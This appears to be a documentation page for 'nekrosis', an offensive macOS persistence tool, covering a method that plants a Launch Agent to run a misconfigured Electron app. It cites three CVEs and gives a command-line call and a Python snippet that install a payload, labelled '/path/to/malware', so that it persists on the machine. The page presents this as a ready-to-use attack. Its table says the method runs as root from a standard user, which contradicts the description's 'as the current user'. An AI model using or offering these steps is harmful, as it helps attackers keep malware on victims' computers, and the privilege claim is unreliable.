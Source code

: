 # launchd Persistence: Electron (User)

### Description

Based off the `LaunchAgent - Current User` method, this method will create a Launch Agent that will execute an Electron application as the current user. This method exploits misconfigured Electron applications allowing for arbitrary code execution.

This method allows for usage of CVEs such as CVE-2023-7245, CVE-2023-50975 and CVE-2024-23755.

### Available Method

| Method                       | Requires      | Runs As      |
|:-----------------------------|:--------------|:-------------|
| `LaunchAgent - Electron`     | Standard User | Root         |


### Demo:

#### - LaunchAgent - Electron

::: code-group

```shell [Command Line]
nekrosis --payload /path/to/payload --method "LaunchAgent - Electron"
```

```python [Python API]
from nekrosis import Nekrosis

nekrosis_obj = Nekrosis(
  payload="/path/to/malware",
  custom_method="LaunchAgent - Electron"
)
nekrosis_obj.install()
```

:::

![](/public/macOS%20Persistence%20Methods/LaunchAgent%20-%20Electron.png)